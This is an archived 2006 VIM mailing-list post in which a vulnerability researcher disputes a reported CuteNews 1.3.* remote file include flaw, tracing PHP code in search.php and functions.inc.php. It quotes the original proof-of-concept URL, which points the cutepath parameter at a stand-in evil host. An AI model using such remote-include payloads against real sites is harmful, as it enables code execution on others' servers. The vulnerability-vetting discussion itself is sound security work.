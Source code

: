 === Content from www.attrition.org_b506c8bf_20250124_215944.html ===

# [VIM] CuteNews 1.3.\* Remote File Include Vulnerability

**Steven M. Christey**
coley at mitre.org

*Tue Aug 29 18:23:32 EDT 2006*

* Previous message: [[VIM] Sendmail vendor dispute - CVE-2006-4434 (fwd)](001011.html)
* Next message: [[VIM] my dispute: Submit ( ToendaCMS<= ( Remote File Include Vulnerabilities )](001001.html)
* **Messages sorted by:**
  [[ date ]](date.html#1000)
  [[ thread ]](thread.html#1000)
  [[ subject ]](subject.html#1000)
  [[ author ]](author.html#1000)

---

```

I was going to send this to Bugtraq, but does anybody else have ideas?

Ref: <http://www.securityfocus.com/archive/1/archive/1/444385/100/0/threaded>

I can't see where the vulnerability is.

At the very least, the source code being referenced does not have the
problem, although the real problem might be somewhere else.

from search.php, this source code was quoted:

>$cutepath = __FILE__;

__FILE__ is a constant, set to the script's pathname.  It does not
include the query string.  So, it's not controlled by the attacker at
all.

>$cutepath = preg_replace( "'\\\search\.php'", "", $cutepath);
>$cutepath = preg_replace( "'/search\.php'", "", $cutepath);

The preg_replace() use constant values, just to strip the filename
from the end, to get the base pathname.

>require_once("$cutepath/inc/functions.inc.php");

Since $cutepath is a constant, uncontrolled value, this statement will
only look in the expected place for inc/functions.inc.php - so the
vulnerability can't be here.

>--------------PoC/Exploit----------------------
>
>search.php?cutepath=[http://host/evil.txt?](http://host/evil.txt)
>

So - given the above situation, how could this attack work?

Later in search.php, there are other calls to file() and and require()
that use $cutepath, so maybe $cutepath got overwritten somewhere.

Well, let's look at inc/functions.inc.php, since that's what's being
required:

>// bad practice, i know
>[snip]
>if ($_GET)              {extract($_GET, EXTR_SKIP);}

OK - so, maybe the "cutepath" parameter would be overwritten.

But - the EXTR_SKIP says "If there is a collision, don't overwrite the
existing variable."  So, since $cutepath already exists, it shouldn't
be overwritten... right?  (I tested this on my local PHP 4.x, and
EXTR_SKIP is honored even when it's in an include file and the
variable was defined in the original file).

- Steve

```

---

* Previous message: [[VIM] Sendmail vendor dispute - CVE-2006-4434 (fwd)](001011.html)
* Next message: [[VIM] my dispute: Submit ( ToendaCMS<= ( Remote File Include Vulnerabilities )](001001.html)
* **Messages sorted by:**
  [[ date ]](date.html#1000)
  [[ thread ]](thread.html#1000)
  [[ subject ]](subject.html#1000)
  [[ author ]](author.html#1000)

---

[More information about the VIM
mailing list](http://www.attrition.org/mailman/listinfo/vim)


